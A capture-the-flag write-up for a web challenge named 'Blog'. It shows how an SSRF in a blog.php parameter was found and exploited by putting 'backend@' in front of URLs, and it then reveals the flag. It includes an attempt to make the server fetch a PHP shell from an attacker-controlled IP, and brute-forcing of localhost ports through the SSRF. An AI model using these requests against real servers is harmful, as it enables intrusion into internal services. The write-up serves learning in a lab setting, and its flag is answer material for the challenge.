 ## Blog

### Description

It seems that WebTopia deployed a blog for all its inhabitants. Can you investigate on it ?

**Author: algorab**

### Solution
We have a Blog webpage that includes some links to posts. 
We intercept the requests with Burp and we can see that, for instance, when we click on the first link, a GET request is made to `/blog.php?blog=1`.
Hence, we try manipulating the parameter `blog` by making the following requests :  
* `GET /blog.php?blog=4` returns null so we indeed have only 3 blog posts
* `GET /blog.php?blog[]=1` gives an error that the parameter has to be a string not an array.
* `GET /blog.php?blog=1'` and `GET /blog.php?blog=1"` return `{"error":"Invalid ID"}` so probably an SQL injection is not possible.
* `GET /blog.php?blog=http://www.google.com` returns the <b>Warning</b>: Request should only be sent to <b>backend</b> host. So it is an [SSRF](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery).      

Let's go down this path.
We try other URLs by making requests such as `GET /blog.php?blog=http://localhost` for instance. But the same error persists. 
However, when we make a GET request to `/blog.php?blog=http://backend` we obtain the error `Invalid ID`. Therefore, our request was ran indeed.   

The first reflex we had here was to expose a PHP shell code on a public IP in order to execute code remotely. 
The request we made was the following : `/blog.php?blog=http://backend@<Public attacker IP>/shell.php.`
We can see that the GET request was successfully made as we see it on the logs of our server, but the shellcode is actually echoed and not executed. 
So, we cannot RCE like this, but maybe we can check what is on the server.
We make the following GET request `/blog.php?blog=http://backend@localhost` but it returns nothing.


We run Gobuster to check the subdirectories, but none of `/blog.php?blog=http://backend@localhost/.htaccess` or `/blog.php?blog=http://backend@localhost/.htpasswd` returns a result.    

We try to check other ports, maybe something else exposed on the server, so we kind of bruteforce by making several requests like this `GET /blog.php?blog=http://backend@localhost:<port>`.
By making the following GET request `GET /blog.php?blog=http://backend@localhost:8080`, we obtain the hidden webpage which includes the flag.

### Flag

`N0PS{S5rF_1s_Th3_n3W_W4y}`